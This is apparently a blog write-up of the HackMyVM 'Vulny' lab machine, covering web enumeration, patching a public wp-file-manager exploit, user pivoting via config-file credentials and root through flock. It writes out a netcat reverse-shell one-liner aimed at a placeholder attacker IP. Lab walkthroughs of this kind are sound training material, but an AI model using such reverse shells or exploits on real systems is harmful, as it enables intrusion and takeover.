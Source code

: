 +++
title = 'Vulny'
date = 2024-01-20T14:47:53-06:00
draft = false
summary = "Writeup of the machine vulny from the hackmyvm website"
tags = ["pentesting","hackmyvm","sql","wordpress","python"]
series=['Hackmyvm Easy']
series_order=1
+++

# Machine Information
***
| Name  | Vulny  |
|---|---|
|  OS | Linux  |
|Author   |SML   |
|Difficulty   |Easy   |
|Site   |[hackmyvm](https://hackmyvm.eu)   |
***


## Recon and enumeration

Service scan:

![](images/vulny%20(1).png)

Lets check the webpage:

![](images/vulny%20(2).png)

Default apache2 webpage, we run a gobuster scan.

![](images/vulny%20(3).png)

We find two interesting directories, javascript and secret, let's check them:

![](images/vulny%20(4).png)

We find something interesting, maybe, that's the directory we are in right now, so let's keep that in mind, in the javascript page we dont have enough privileges to view it:

![](images/vulny%20(5).png)

Let's enumerate the /secret directory:

![](images/vulny%20(6).png)

We find another 3 directories , lets check each one of them:

![](images/vulny%20(7).png)

***
![](images/vulny%20(8).png)

![](images/vulny%20(9).png)

*Later on, I found this list of directories on the /wp-admin directories, but couldn't access them*
***

![](images/vulny%20(10).png)

Lets check the `/uploads` directory in `/wp-content`:

![](images/vulny%20(11).png)

We find a zip-file, lets download it and see its contents:

![](images/vulny%20(12).png)

Among the files of the zip,we see file an `.sql` file, we research how to open it:

![](images/vulny%20(13).png)
![](images/vulny%20(14).png)

Lets follow this steps.And we find nothing of interest in the database tables(make sure we start the mysql service with `sudo service start mysql`):

![](images/vulny%20(15).png)

Apparently, this database has no information at all, ideally , it would contain user and password information, I decide to do a little bit of research on the `wp file manager` and its version to see if it can be exploited in some way.

After a while, a find a [github](https://github.com/ircashem/wp-file-manager-plugin-exploit) page, containing a exploit for this app, it a plugin for wordpress, and the exploit will a allow remote command execution, now I'll follow this steps, and see if I can get a reverse shell:

I get an error code:

![](images/vulny%20(16).png)

Lets check the code and see what's the problem:

![](images/vulny%20(17).png)

We can see, that the default directory I will look up will start with `/wp-content` ,but, let's remember our directory enumeration, the `/wp-content` directory is in the `/secret` directory:

![](images/vulny%20(18).png)

Also, just for the sake of confirmation, lets check the content of the zip file we downloaded and see if the `readme.txt` is there:

![](images/vulny%20(19).png)

There it is, so, now ,to make the code work, we just need to add the `/secret` string to the variable, like this:

![](images/vulny%20(20).png)

It should work now, lets try again:

![](images/vulny%20(21).png)

We find another error, but this time, in my opinion, the programmers part, didn't it say that version 6.0 was also vulnerable?

![](images/vulny%20(22).png)

It is, lets check the code again:

![](images/vulny%20(23).png)

We found the problem, now, what's happening here, to sum it up, the `>` operator *greater than* is causing the problem, because of this, instead of looking through version `6.0 to 6.8` it will only detect version through `6.1 to 6.8` as vulnerable ,leaving out the `6.0` of the app, let add an `=` next to the `>` , to take in count the `6.0`  and then let's try out the code again:

![](images/vulny%20(24).png)

After looking at the code a while, I realize, there are another strings referencing the directory that I did not change:

![](images/vulny%20(25).png)

## Initial access and user pivoting
Now, lets run the exploit again:

![](images/vulny%20(26).png)

There we go! Lets see what we can find:

![](images/vulny%20(27).png)

First, we find the user adrian, lets see if we can access his `home` folder, it seems we cannot traverse directories, let try that reverse shell we saw earlier on the github page of the exploit:

First we start our listener in our machine :

![](images/vulny%20(28).png)

Then we run the `rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc <YOUR-MACHINE-IP> <PORT-OF-YOUR-CHOOSING> >/tmp/f ` on the target machine:

![](images/vulny%20(29).png)


![](images/vulny%20(30).png)
We have a reverse shell! Lets update our shell a little:

![](images/vulny%20(31).png)

Using the following, remember that we have to run a `bash shell` for this to work, which, in my case I need to do because I'm using zsh, I run the command, and explore ,first, I look for other users:

![](images/vulny%20(32).png)

Besides root, only the user *adrian* can use a shell session, lets go to his home directory and check its contents:

![](images/vulny%20(33).png)

We can't access anything interesting in this directory, but now we know we have to pivot to this user, lets check if theres something of interest the `/var/www/` directory:

![](images/vulny%20(34).png)

Nothing there...

I decide explore the contents of the wordpress directory, there I find some interesting files:

![](images/vulny%20(35).png)

I inspect the contents of that php file:

![](images/vulny%20(36).png)

Lets try that:

![](images/vulny%20(37).png)

Great! Now lets get that user flag:

![](images/vulny%20(38).png)

## Privilege Escalation
Now, lets run the usual commands to check if we can find any privesc vectors:

![](images/vulny%20(39).png)

We search that program in [gtfobins](https://gtfobins.github.io/gtfobins/flock/)

![](images/vulny%20(40).png)

We try this, and see if we can access the contents of the `/root` directory:

![](images/vulny%20(41).png)

Even better, we get root! Lets see if we can get that flag:

![](images/vulny%20(42).png)

And we have pwned the machine.

## Things I learned from this machine

- Wordpress vulnerability in versions ranging from (6.0 to 6.8).
- How to access a database I downloaded from a file server with mysql(and that not always those databases will have data on them...).
- Remember to start a bash shell when setting up a full TTY in the netcat listener(if not using bash a main shell session).
- Check config files for useful information.
- Apparently, after checking other writeups, I could've used the metasploit framework too for this machine.